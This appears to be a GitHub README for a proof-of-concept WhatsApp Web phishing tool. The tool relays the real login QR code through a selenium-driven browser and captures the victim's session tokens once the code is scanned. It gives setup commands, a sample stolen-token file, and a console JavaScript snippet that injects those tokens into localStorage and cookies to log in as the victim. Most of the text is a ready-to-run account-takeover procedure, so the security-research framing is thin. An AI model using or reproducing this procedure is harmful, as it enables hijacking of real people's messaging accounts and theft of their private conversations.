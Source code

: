 #Whatsapp phishing

This repo contains prove of principle code for running an phishing attack against the official [Whatsapp Web client](https://web.whatsapp.com).
I also wrote about it on my [german blog](http://blog.mawalabs.de/)

##Whatsapp what?

http://www.whatsapp.com/faq/web/28080003

Short: A web client for Whatsapp. You log in by scanning a QR code on there page using Whatsapp

##What does it do

It will extract the QR code from [Whatsapp Web](https://web.whatsapp.com) and display it on a new page.
If someone scans the code using Whatsapp it will grab the credentials from the web client and save them in a file.
You can use these credentials to log yourself in as the person who scanned to QR code. It's theoreticaly possible to use this for a phishing attack.

##How does it work

The program uses node.js and socket.io for the website and selenium, a tool for scripting browsers, to communicate with the Whatsapp web client.

The program starts a http and a socket.io server. If a new client connects to socket.io the application will make a request to a selenium instance to start a new browser and connect to web.whatsapp.com. It will fetch the QR code data and send it to the client via the websocket connection. The client javascript then shows the QR code to the user.

If the QR code gets scanned Whatsapp will authenticate the selenium controlled browser and store some tokens in the localStorage and document.cookie. We extract that data and save it into a text file. It will look like so:

```
{
   "s":{
      "remember-me":"true",
      "WAVersion":"\"0.1.4391\"",
      "qwefsdafadsdf==":"false",
      "debugCursor":"146",
      "WAWamDimensionCache":"{\"AppVersion\":\"0.1.4391\",\"BrowserVersion\":\"Firefox 39.0\",\"DeviceName\":\"Linux x86_64\",\"WebcEnv\":0}",
      "WAToken2":"\"0.asldkamäsdflkasdfasdf\"",
      "WAWamLastRotate":"1439140177924",
      "WALangPref":"\"de-DE\"",
      "WAWamStatus":"\"completed\"",
      "y8fY/zQ8P+asdfadfg==":"[
        ...
      ]",
      "WAToken1":"\"asdf+ams,dfhlaskdjfhasdfasdf=\"",
      "Dexie.DatabaseNames":"[\"wawc\"]",
      "storage_test":"storage_test",
      "LKAJsdlksdjfasdf==":"false",
      "logout-token":"\"alkjsdhfkjashldkjpweoaLKNKASBkasjbdaksdjLKjhhndosiaosa;AljkhJKhlKAJShkljqjDJSAOlkjbnhasdklWAdm==\"",
      "ver":"1",
      "whatsapp-mutex":"\"x781239870495:init0.987123490234\"",
      "WASecretBundle":"{\"key\":\"sldkfjsdf+asdlfijlasdkjfasdf=\",\"encKey\":\"asldkfjasldkfjsdfsdf0=\",\"macKey\":\"a,sdfasdf+alskdjföalskdhiopasdf=\"}",
      "WABrowserId":"\"aö,ksdjflöasdf==\""
   },
   "c":""
}
```

You can than import these tokens into your browser and log in as the person who scanned the QR code.

##Instructions

   * Download the [selenium standalone server](http://www.seleniumhq.org/download/) jar file and install Firefox if you don't have it already.
   * Type the following into your terminal
   
    ```
    $ java -jar selenium-server.jar
    $ # new terminal
    $ git clone https://github.com/Mawalu/whatsapp-phishing.git
    $ cd whatsapp-phishing
    $ npm install
    $ node index.js
    ```
   * Open your browser and go to [http://localhost:8080](http://localhost:8080)
   * Start Whatsapp on your smartphone, go to Menu > Whatsapp Web and scan the QR code from your browser.
   * Copy the content from the newly created secrets file
   * Open web.whatsapp.com. (Watch out that you are not alredy logged in, maybe use incognito mode)
   * Open your developer console
   * Enter the following code:
   
   ```
   > var t = CONTENT_OF_YOUR_SECRETS_FILE
   > function login(token) {Object.keys(token.s).forEach(function (key) {localStorage.setItem(key, token.s[key])}); token.c = token.c.split(';'); token.c.forEach(function(cookie) {document.cookie = cookie; });}
   > login(t)
   ```
   * Reload the page
   * You should be logged in as the person who scanned the QR code
